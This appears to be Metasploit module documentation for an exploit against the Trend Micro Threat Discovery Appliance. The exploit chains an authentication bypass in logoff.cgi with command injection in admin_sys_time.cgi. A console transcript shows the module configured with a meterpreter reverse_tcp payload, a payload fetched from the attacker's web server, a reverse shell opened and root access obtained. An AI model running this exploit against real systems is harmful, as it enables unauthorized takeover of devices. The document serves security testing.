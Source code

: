 ## Vulnerable Application

This module exploits two vulnerabilities the Trend Micro Threat Discovery Appliance. The first is an authentication bypass vulnerability via a file delete in logoff.cgi which resets the admin password back to 'admin' upon a reboot (CVE-2016-7552). The second is a cmdi flaw using the timezone parameter in the admin_sys_time.cgi interface (CVE-2016-7547).

Note: You have the option to use the authentication bypass or not since it requires that the server is rebooted. The password reset will render the authentication useless. Typically, if an administrator cant login, they will bounce the box. Therefore, this module performs a heart beat request until the box is bounced and then attempts to login and to perform the command injection. This module has been tested on version 2.6.1062r1 of the appliance.

Trend Micro are not patching this vulnerability since this product is now ([EOL](https://success.trendmicro.com/solution/1105727-list-of-end-of-life-eol-end-of-support-eos-trend-micro-products)).

![Demo](http://srcincite.io/poc/CVE-2016-7547.gif)

**Vulnerable Application Installation Steps**

List the steps needed to make sure this thing works

- [ ] Download the ISO from ([Trend Micro's](http://download.trendmicro.com/products/tda/TDA_InstallationCD.2.6.1062r1.en_US.iso)) download site.
- [ ] Setup the VM to have 2 NIC's, 100 Gig HD and 4096 RAM.
- [ ] Click through the default install.
- [ ] You are ready to burn.

**Verification Steps**

A successful check of the exploit will look like this:

```
saturn:metasploit-framework mr_me$ ./msfconsole -qr scripts/trend.rc 
[*] Processing scripts/trend.rc for ERB directives.
resource (scripts/trend.rc)> use exploit/multi/http/trendmicro_threat_discovery_admin_sys_time_cmdi
resource (scripts/trend.rc)> set RHOST 192.168.100.2
RHOST => 192.168.100.2
resource (scripts/trend.rc)> set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
resource (scripts/trend.rc)> set LHOST 192.168.100.13
LHOST => 192.168.100.13
resource (scripts/trend.rc)> exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.100.13:4444 
[*] Bypassing authentication...
msf exploit(trendmicro_threat_discovery_admin_sys_time_cmdi) > 
[+] The password has been reset!
[*] Waiting for the reboot...
[*] 192.168.100.2:443 - Starting up our web service on http://192.168.100.13:1337/nnDBuOUMuKnxP ...
[*] Using URL: http://0.0.0.0:1337/nnDBuOUMuKnxP
[*] Local IP: http://192.168.100.13:1337/nnDBuOUMuKnxP
[+] Logged in
[*] 192.168.100.2:443 - Sending the payload to the server...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 192.168.100.2
[*] Meterpreter session 1 opened (192.168.100.13:4444 -> 192.168.100.2:46140) at 2016-09-23 14:59:08 -0500
[+] Deleted /tmp/rpNDXQZTB
[*] Server stopped.

msf exploit(trendmicro_threat_discovery_admin_sys_time_cmdi) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 3846 created.
Channel 1 created.


BusyBox v1.00 (2010.10.13-06:52+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

/bin/sh: can't access tty; job control turned off
/opt/TrendMicro/MinorityReport/www/cgi-bin # id
id
uid=0(root) gid=0(root)
/opt/TrendMicro/MinorityReport/www/cgi-bin #
```
